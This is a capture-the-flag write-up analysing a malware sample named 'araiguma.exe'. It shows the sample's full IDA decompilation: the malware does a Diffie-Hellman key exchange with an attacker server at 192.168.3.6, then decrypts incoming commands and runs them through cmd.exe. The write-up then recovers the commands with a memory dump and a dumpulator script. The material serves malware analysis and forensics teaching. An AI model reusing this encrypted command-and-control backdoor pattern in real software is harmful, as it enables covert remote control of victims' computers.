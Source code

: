 # DoroboH challenge

Description: I found a suspicious process named "araiguma.exe" running on my computer.
Before removing it, I captured my network and dumped the process memory.
Could you investigate what the malware is doing?

Download: https://drive.google.com/file/d/1KeEBMik_Dks4s5ikzDwcpLvFjMjevyyQ/view

## Initial decompilation

I loaded the program into IDA Pro, and got a pretty nice decompilation:
```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  DWORD dwBytes; // [rsp+38h] [rbp-48h] BYREF
  int dwBytes_4; // [rsp+3Ch] [rbp-44h] BYREF
  struct sockaddr name; // [rsp+40h] [rbp-40h] BYREF
  struct WSAData WSAData; // [rsp+50h] [rbp-30h] BYREF
  char buf[4]; // [rsp+1F0h] [rbp+170h] BYREF
  DWORD pdwDataLen; // [rsp+1F4h] [rbp+174h] BYREF
  HCRYPTKEY hKey; // [rsp+1F8h] [rbp+178h] BYREF
  HCRYPTKEY phKey; // [rsp+200h] [rbp+180h] BYREF
  HCRYPTPROV hProv; // [rsp+208h] [rbp+188h] BYREF
  BYTE v13[4]; // [rsp+210h] [rbp+190h] BYREF
  void *v14; // [rsp+218h] [rbp+198h]
  BYTE pbData[4]; // [rsp+220h] [rbp+1A0h] BYREF
  void *v16; // [rsp+228h] [rbp+1A8h]
  LPCSTR lpParameters; // [rsp+238h] [rbp+1B8h]
  BYTE *v18; // [rsp+240h] [rbp+1C0h]
  SOCKET s; // [rsp+248h] [rbp+1C8h]
  BYTE *v20; // [rsp+250h] [rbp+1D0h]
  HANDLE hHeap; // [rsp+258h] [rbp+1D8h]

  _main();
  *(_DWORD *)pbData = 64;
  v16 = &g_P;
  *(_DWORD *)v13 = 64;
  v14 = &g_G;
  hHeap = GetProcessHeap();
  if ( !hHeap )
    return 1;
  if ( !(unsigned int)_IAT_start__(
                        &hProv,
                        0i64,
                        "Microsoft Enhanced DSS and Diffie-Hellman Cryptographic Provider",
                        13i64,
                        -268435456) )
    return 1;
  if ( CryptGenKey(hProv, 0xAA02u, 0x2000041u, &phKey)
    && CryptSetKeyParam(phKey, 0xBu, pbData, 0)
    && CryptSetKeyParam(phKey, 0xCu, v13, 0)
    && CryptSetKeyParam(phKey, 0xEu, 0i64, 0) )
  {
    if ( CryptExportKey(phKey, 0i64, 6u, 0, 0i64, &pdwDataLen) )
    {
      v20 = (BYTE *)HeapAlloc(hHeap, 0, pdwDataLen);
      if ( v20 )
      {
        if ( CryptExportKey(phKey, 0i64, 6u, 0, v20, &pdwDataLen) )
        {
          WSAStartup(2u, &WSAData);
          s = socket(2, 1, 0);
          name.sa_family = 2;
          *(_WORD *)name.sa_data = htons(0x1F90u);
          inet_pton(2, "192.168.3.6", &name.sa_data[2]);
          if ( !connect(s, &name, 16) )
          {
            send(s, (const char *)&pdwDataLen, 4, 0);
            send(s, (const char *)v20, pdwDataLen, 0);
            recv(s, buf, 4, 0);
            v18 = (BYTE *)HeapAlloc(hHeap, 0, *(unsigned int *)buf);
            if ( v18 )
            {
              recv(s, (char *)v18, *(int *)buf, 0);
              if ( CryptImportKey(hProv, v18, *(DWORD *)buf, phKey, 0, &hKey) )
              {
                dwBytes_4 = 26625;
                if ( CryptSetKeyParam(hKey, 7u, (const BYTE *)&dwBytes_4, 0) )
                {
                  memset(v18, 0, *(unsigned int *)buf);
                  while ( recv(s, (char *)&dwBytes, 4, 0) == 4 )
                  {
                    lpParameters = (LPCSTR)HeapAlloc(hHeap, 0, dwBytes);
                    if ( !lpParameters )
                      break;
                    recv(s, (char *)lpParameters, dwBytes, 0);
                    if ( !CryptDecrypt(hKey, 0i64, 1, 0, (BYTE *)lpParameters, &dwBytes) )
                    {
                      HeapFree(hHeap, 0, (LPVOID)lpParameters);
                      break;
                    }
                    ShellExecuteA(0i64, "open", "cmd.exe", lpParameters, 0i64, 0);
                    memset((void *)lpParameters, 0, dwBytes);
                    HeapFree(hHeap, 0, (LPVOID)lpParameters);
                  }
                }
              }
              HeapFree(hHeap, 0, v18);
            }
            closesocket(s);
          }
          WSACleanup();
        }
        HeapFree(hHeap, 0, v20);
      }
    }
    CryptDestroyKey(phKey);
  }
  CryptReleaseContext(hProv, 0);
  return 0;
}
```

I also did a quick look at the other functions and initializers to make sure there wasn't any hidden code, but nothing caught my attention.

The `__IAT_start__` function call is weird and is caused by symbol overlap, it is actually a call to `CryptAcquireContextA`.

This program does some kind of key exchange with the attacker's server (located in LAN, so even if you ran this program nothing terrible should have happened), then receives messages from the attacker, each prefixed with a 4 byte length, decrypts them and executes cmd.exe with the content. The difficulty is presumably decrypting the received messages. The key exchange also uses messages prefixed with 4 byte lengths (one message from the client followed by a reply from the server). The IP of the attacker server is `192.168.3.6`.

My first idea was to maybe extract the key data from memory, but a quick look at the decompilation for `CryptDecrypt` and the Wine source code revealed that this would be rather difficult due to multiple levels of pointer indirection. It was indeed quite difficult, as the author of the task confirmed after the CTF it'd require reverse engineering quite a large part of the crypt provider's internals.

I instead remembered that I have seen a tool that can be used to emulate a minidump, so I decided to try to find it. The tool can be found at https://github.com/mrexodia/dumpulator. The idea is to call the `CryptDecrypt` function in the dump with the packet contents, with the key already present in the dump's memory.

## Dump analysis

We need to find the neccessary function offsets and the address of the `hKey` variable in the dump.

I loaded the dump into IDA Pro, used "Jump to address" to navigate to `0x401550`, defined a function there, and then navigated to the first call site in the araiguma binary from the Stack trace view (which can be opened using Debugger -> Debugger windows). While the imported functions are still unnamed, and this probably could be fixed somehow, it was not a big problem for me as I had the import names in the IDA with the actual binary.

We can see that we are waiting on the innermost `recv` call, after the key exchange has been completed. This means we need to get the `hKey` pointer. Unfortunately, IDA seems not to be able to unroll the stack automatically, or at least I don't know how to make it do that, so double clicking the pointer in the decompiler view does not give the correct address. I instead manually unrolled the stack pointer (all the functions on the stack had bp-frames so the saved rbp pointer was always before the return value for all the relevant functions) and found the key's pointer to be `0xF62E0`. Finding the address of `CryptDecrypt` can be done by just copying the function address from IDA Pro (and it is `0x7FFA9E0BF410`).

## Packet analysis

The pcap can be opened in Wireshark. We use the filter: `ip.addr == 192.168.3.6`, which is the IP of the attacker's server. We can see a single TCP stream, which we can merge using: Analyze -> Follow -> TCP stream. Then I switched the data view mode to Hex Dump.

We know that there will be one client -> server message starting the key exchange and one server -> client message completing the exchange. All server -> client commands afterwards are command invocations. We can copy them into a Python script (I used the C array view option for this) for later decryption.

## The script

Now we can write a Python script using the dumpulator library. The API is rather simple, however it apparently does not support calling functions with more than 4 parameters. However, we can still push values onto the stack, so we can push the extra values onto the stack before calling `CryptDecrypt`. An important fact is that the Microsoft ABI specified that there is a 0x20 shadow space before the arguments begin, so I filled that space with zeros. Otherwise, this script was quite straightforward. There are two packets we extracted from the packet log, the first one is uncommented in the script below and contains the flag, the other one creates a non-important file on the desktop telling the user that they are compromised.

```py
from dumpulator import Dumpulator
import struct

CryptDecrypt = 0x7FFA9E0BF410
hKey = 0xF62E0

pk = bytes([0x8c, 0x28, 0xc2, 0x0d, 0x02, 0x7a, 0xa8, 0xbc, 0x9a, 0x71, 0xb1, 0x07, 0x02, 0x24, 0x21, 0xe9, 0x07, 0x34, 0x0d, 0xe0, 0xf9, 0xa4, 0xc5, 0x40, 0x61, 0x1f, 0x2d, 0x95, 0xb5, 0x60, 0xf8, 0x43, 0x5f, 0xdb, 0x44, 0xec, 0xb3, 0x88, 0x76, 0xdd, 0xab, 0x1f, 0xe3, 0xff, 0xca, 0xf2, 0x6a, 0xeb, 0x65, 0xb7, 0xf7, 0xf4, 0xd1, 0xd0, 0xbc, 0x6c, 0xee, 0xc5, 0x21, 0xc7, 0x7c, 0x27, 0xcd, 0x0f, 0xfb, 0xa4, 0xa9, 0xd0, 0x07, 0x22, 0x8c, 0x47, 0x82, 0x88, 0xb9, 0x06, 0xb6, 0x4d, 0x83, 0x2b, 0xe9, 0x82, 0x2e, 0x12, 0x3e, 0xc4, 0xa5, 0xab, 0xbc, 0x15, 0x5a, 0x24, 0xb6, 0x3a, 0x8c, 0x65, 0x7c, 0x05, 0xff, 0x61, 0x48, 0x12, 0x4f])
#pk = bytes([0x8c, 0x28, 0xc2, 0x0d, 0x02, 0x7a, 0xa8, 0xbc, 0x9a, 0x6b, 0xd4, 0x36, 0x24, 0x0c, 0x1d, 0xf7, 0x3e, 0x27, 0x14, 0xbf, 0xab, 0xae, 0xfb, 0x7d, 0x34, 0x06, 0x35, 0xdf, 0x91, 0x74, 0xe2, 0x47, 0x19, 0xdd, 0x3b, 0xcc, 0xe8, 0x95, 0x72, 0xdd, 0xad, 0x49, 0xac, 0x8c, 0x93, 0xf1, 0x22, 0xaa, 0x61, 0xad, 0xa3, 0xf3, 0xcb, 0x8a, 0xa1, 0x28, 0x8b, 0xab, 0x33, 0x95, 0x71, 0x69, 0xfd, 0x04, 0xc4, 0x82, 0xa7, 0x97, 0x55, 0x6f, 0xf0, 0x67, 0xcc, 0xb2, 0xb0, 0x31, 0xb6, 0x4c, 0x9b, 0x03, 0xe5, 0x86, 0x14, 0x20, 0x15, 0xd5, 0xbf, 0xa6, 0xa1, 0x19, 0x4b, 0x0c, 0xb9, 0x39, 0x83, 0x2c, 0x26, 0x09, 0xf3, 0x18, 0x4f, 0x18])

dp = Dumpulator("araiguma.DMP")

buf_addr = dp.allocate(256+4)
dp.write(buf_addr, pk) # packet data
dp.write(buf_addr+256, struct.pack('<I', len(pk))) # length

dp.push(buf_addr+256) # pointer to length
dp.push(buf_addr) # pointer to data
dp.push(0) # padding required due to Windows ABI
dp.push(0)
dp.push(0)
dp.push(0)
dp.call(CryptDecrypt, [hKey, 0, 1, 0])
decrypted = dp.read(buf_addr, len(pk))
print(decrypted)
```


